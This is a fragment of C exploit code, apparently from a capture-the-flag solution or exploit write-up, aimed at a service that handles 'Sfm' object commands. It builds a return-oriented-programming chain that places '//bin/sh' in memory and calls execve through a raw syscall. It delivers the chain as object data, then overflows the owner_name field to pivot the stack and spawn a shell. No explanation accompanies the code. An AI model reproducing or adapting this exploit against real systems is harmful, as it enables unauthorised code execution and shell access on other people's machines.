 ```C
    unsigned char exp_rop[400];
    for(int i = 0; i < 400; i++)
    {
        exp_rop[i] = 0;
    }
    unsigned long long*exp_long_ptr = (unsigned long long *)exp_rop;

    exp_long_ptr[0] = pop_rax_ret;
    exp_long_ptr[1] = 0x68732f6e69622f2f;
    exp_long_ptr[2] = pop_rcx_ret;
    exp_long_ptr[3] = data_segment;
    exp_long_ptr[4] = mov_rcx_rax_ret;
    exp_long_ptr[5] = pop_rax_ret;
    exp_long_ptr[6] = 0;
    exp_long_ptr[7] = pop_rcx_ret;
    exp_long_ptr[8] = data_8_segment;
    exp_long_ptr[9] = mov_rcx_rax_ret;
    exp_long_ptr[10] = pop_rdi_ret;
    exp_long_ptr[11] = data_segment;
    exp_long_ptr[12] = pop_rsi_ret;
    exp_long_ptr[13] = data_8_segment;
    exp_long_ptr[14] = pop_rdx_ret;
    exp_long_ptr[15] = data_8_segment;
    exp_long_ptr[16] = pop_rax_ret;
    exp_long_ptr[17] = 0x3b;
    exp_long_ptr[18] = syscall;

    SfmCreateObject create_object;
    my_memset(&create_object, 0, sizeof(SfmCreateObject));
    create_object.cmd.command_code = 2;
    create_object.object_type = 3;
    create_object.policy.policy_type = 0;
    create_object.nv.size = 1024;
    my_memcpy((unsigned char*)&create_object.nv.data, (unsigned char*)&exp_rop, sizeof(exp_rop));
    my_write(fd, &create_object, sizeof(SfmCreateObject));
    status = my_read(fd, &status, 4);

    SfmModifyObject modify_object = {0};
    my_memset((unsigned char*)&modify_object, 0, sizeof(SfmModifyObject));
    modify_object.cmd.command_code = 3;
    modify_object.object_index =  0;
    modify_object.record.country_code[0] = 'A';
    modify_object.record.country_code[1] = 'A';

    for(int i = 0; i < 51; i++)
    {
        modify_object.record.owner_name[i] = '\xff';
    }
    modify_object.record.owner_name[51] = 'B';
    // owner_name = b'\xff'*51+b'B'*1 + b'\x00'*12
    my_memcpy(modify_object.record.device_name, &pop_rsp_ret, 8);
    for(int i = 8; i < 16; i++)
    {
        modify_object.record.device_name[i] = 'H';
    }
    my_memcpy(modify_object.record.serial_number, &exp_rop_addr, 8);
    my_write(fd, &modify_object, sizeof(SfmModifyObject));

    // client_fd.send(cmd)
    // print(client_fd.recv(4))
    status = my_read(fd, &status, 4);

    // # SfmCertifyObject
```